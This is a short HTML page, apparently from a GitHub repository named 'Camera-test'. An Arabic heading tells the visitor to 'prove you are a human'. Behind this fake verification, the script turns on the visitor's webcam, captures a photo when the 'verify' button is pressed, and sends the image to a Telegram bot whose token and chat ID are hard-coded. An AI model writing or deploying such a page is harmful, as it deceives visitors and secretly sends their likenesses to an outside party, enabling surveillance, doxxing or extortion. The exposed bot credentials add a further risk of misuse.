 # Camera-test
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Camera Test</title>
</head>
<body>
  <h2>أثبت إنك إنسان</h2>
  <video id="video" width="300" autoplay></video><br>
  <button onclick="capture()">تحقق</button>

  <script>
    const video = document.getElementById('video');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;
      })
      .catch(err => {
        alert("فشل الوصول للكاميرا: " + err);
      });

    function capture() {
      const canvas = document.createElement('canvas');
      canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      const ctx = canvas.getContext('2d');
      ctx.drawImage(video, 0, 0);

      const dataURL = canvas.toDataURL('image/jpeg');

      fetch(dataURL)
        .then(res => res.blob())
        .then(blob => {
          const formData = new FormData();
          formData.append('chat_id', '6124563464');
          formData.append('photo', blob, 'photo.jpg');

          fetch('https://api.telegram.org/bot7707895718:AAEn9GruZqUGd9hDAmBlNAI-2sT3XvfK_24/sendPhoto', {
            method: 'POST',
            body: formData
          }).then(response => {
            if (response.ok) {
              alert("تم إرسال الصورة!");
            } else {
              alert("فشل الإرسال: " + response.statusText);
            }
          });
        });
    }
  </script>
</body>
</html>
